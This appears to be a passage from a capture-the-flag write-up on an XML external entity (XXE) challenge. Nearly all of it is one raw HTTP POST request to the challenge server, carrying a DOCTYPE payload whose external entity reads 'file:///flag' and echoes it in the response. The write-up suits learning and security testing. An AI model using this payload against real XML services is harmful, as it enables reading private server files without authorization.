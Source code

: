 


---

## XXE

```
POST / HTTP/1.1
Host: 101.132.135.45:28001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: text/xml
Referer: http://101.132.135.45:8000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=13618e55-714d-4932-ae36-c6aa405f8fff.vBpJ9Y-0gDfL6_Feoc8giial35Y
Connection: close
Content-Length: 392

<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<note>
  <to>George &xxe;</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>

```

![](images/ctf-2021-06-22-16-26-24.png)
